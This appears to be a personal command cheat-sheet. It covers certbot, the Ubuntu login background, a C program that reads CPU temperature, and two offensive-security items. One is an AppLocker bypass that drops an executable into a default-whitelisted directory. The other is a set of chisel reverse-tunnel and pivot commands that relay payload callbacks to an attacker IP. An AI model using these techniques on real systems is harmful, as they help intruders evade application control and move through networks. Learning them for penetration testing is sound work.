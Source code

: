 ## bypass AppLocker in Windows

There are many ways to bypass AppLocker rules, if it's configured with the default rules, we can bypass it just by placing our executable into this directory which is whitelisted by default:

- `c:\Windows\System32\spool\drivers\color`

## certbot

- list certificates: `certbot certificates`
- register certificate: `certbot certonly --cert-name exaple.com -d example.com`
- register certificate without email: `certbot certonly --register-unsafely-without-email`
- renew certificate: `certbot renew`

## change-login screen Ubuntu 20.04 LTS

- `wget https://github.com/PRATAP-KUMAR/ubuntu-gdm-set-background/archive/main.tar.gz`
- Then run: `sudo ./ubuntu-gdm-set-background --image ~/Downloads/mywallpapaer.jpg`

## checking temperature on CPU

- save code as `<file name>.c` and compile it with `gcc <filename.c> -o <filename>`

```
#include <stdio.h>

int main(int argc, char *argv[])
{
   FILE *fp;

   int temp = 0;
   fp = fopen("/sys/class/thermal/thermal_zone0/temp", "r");
   fscanf(fp, "%d", &temp);
   printf(">> CPU Temp: %.2f°C\n", temp / 1000.0);
   fclose(fp);

   return 0;
}

```

## chisel

- `chisel server --socks5 -p 8000 --reverse`
- `chisel client <chisel server IP>:<PORT> R:socks`
- don't forget to add it to your proxychains4.conf file:
    - `socks5 127.0.0.1 1080`
- `./chisel client --fingerprint <chisel server fingerprint> <attacker IP>:8080 0.0.0.0:9999:<attacker IP>:9999` this command is running on the pivot box, in the commands the `0.0.0.0:9999` is for the pivot box so it's listening on all interfaces on port 9999 and when receives a connection it forwards it back to the attacker's machine. The payload is generated so the callback will be to the pivot box.
